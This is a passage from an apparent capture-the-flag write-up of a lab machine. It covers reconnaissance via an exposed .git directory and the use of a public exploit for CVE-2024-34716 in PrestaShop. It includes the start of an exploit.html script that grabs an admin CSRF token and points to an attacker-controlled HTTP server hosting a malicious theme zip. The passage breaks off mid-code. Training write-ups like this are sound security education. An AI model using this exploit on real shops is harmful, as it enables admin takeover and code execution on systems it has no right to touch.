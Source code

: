 A weird directory called `admin634ewutrx1jgitlooaj` can be noted  

in the `.git/config` file, a potential username can be identified to be `adam` 

<br/> 
<img src="/img/trickster_screenshots/Pasted image 20240927111228.png" alt="1" style="width:700px; height:auto;">
<br/>

Looking for public exploits, found this [link](https://github.com/aelmokhtar/CVE-2024-34716)  
Cloning the `repo` 

<br/> 
<img src="/img/trickster_screenshots/Pasted image 20240927113006.png" alt="1" style="width:700px; height:auto;">
<br/>

We found 3 interesting files that needs to be adjusted

1. `ps_next_8_theme_malicious.zip`
2. `exploit.html `

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta viewport="width=device-width, initial-scale=1.0">
    <title>Exploit</title>
</head>
<body>
    <script>
        const baseUrl = 'http://prestashop:8000';
        const path = 'admin-dev';
        const httpServerIp = '172.16.27.179';
        const httpServerPort = 81;
        const fileNameOfTheme = "ps_next_8_theme_malicious.zip";

        async function fetchTokenFromHTML() {
            const url = `${baseUrl}/${path}/index.php/improve/design/themes/import`;
            try {
                const response = await fetch(url, {
                    method: 'GET',
                    credentials: 'include',
```